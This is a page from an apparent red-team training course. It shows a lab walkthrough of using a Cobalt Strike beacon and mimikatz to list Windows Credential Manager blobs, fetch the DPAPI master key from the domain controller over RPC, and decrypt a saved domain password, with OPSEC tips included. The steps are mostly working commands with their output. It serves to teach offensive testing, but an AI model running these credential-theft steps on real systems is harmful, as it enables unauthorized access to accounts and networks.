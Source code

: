 # Credential Manager

he credential manager blobs are stored in the user's `AppData` directory.

```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```

The native `vaultcmd` tool can also be used to list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: DEV\bfarmer
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Or `mimikatz vault::list`.

```
beacon> mimikatz vault::list

Vault : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
    Name       : Web Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
    Items (0)

Vault : {77bc582b-f0a6-4e15-4e80-61736b6f3b29}
    Name       : Windows Credentials
    Path       : C:\Users\bfarmer\AppData\Local\Microsoft\Vault
    Items (1)
      0.    (null)
        Type            : {3e0e35be-1b77-43e7-b873-aed901b6275b}
        LastWritten     : 2/25/2021 1:07:38 PM
        Flags           : 00000000
        Ressource       : [STRING] Domain:target=TERMSRV/srv-1
        Identity        : [STRING] DEV\bfarmer
        Authenticator   : 
        PackageSid      : 
        *Authenticator* : [BYTE*] 

        *** Domain Password ***
```

If you go to the **Control Panel > Credential Manager** on WKSTN-1 and select **Windows Credentials**, you will see how this credential appears to the user. And opening the **Remote Desktop Connection** client shows how these creds are automatically populated for the target server.

![.gitbook/assets/1664530487_2347.png](https://rto-assets.s3.eu-west-2.amazonaws.com/dpapi/cred-manager.png)

To decrypt the credential, we need to find the master encryption key.

First, run `dpapi::cred` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The **pbData** field contains the encrypted data and the **guidMasterKey** contains the GUID of the key needed to decrypt it. The Master Key information is stored within the user's `AppData\Roaming\Microsoft\Protect` directory (where `S-1-5-21-*` is their SID).

```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-DEV
 24b      fil     02/21/2021 11:49:40   Preferred
```

Notice how this filename **a23a1631-e2ca-4805-9f2f-fe8966fd8698** matches the **guidMasterKey** field above.

There are a few ways to get the actual Master Key content. If you have access to a high integrity session, you may be able to dump it from memory using `sekurlsa::dpapi`. However it may not always be cached here and this interacts with LSASS which is not ideal for OPSEC. My preferred method is to use the RPC service exposed on the Domain Controller, which is a "legitimate" means (as in, by design and using legitimate RPC traffic).

Run `mimikatz dpapi::masterkey`, provide the path to the Master Key information and specify `/rpc`.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```

The **key** field is the key needed to decrypt the credential, which we can do with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : DEV\bfarmer
  CredentialBlob : Sup3rman
```

In this case bfarmer is a local admin on SRV-1, so they just have their own domain credentials saved. It's worth noting that even if they had local credentials or even a different set of domain credentials saved, the process to decrypt them would be exactly the same.
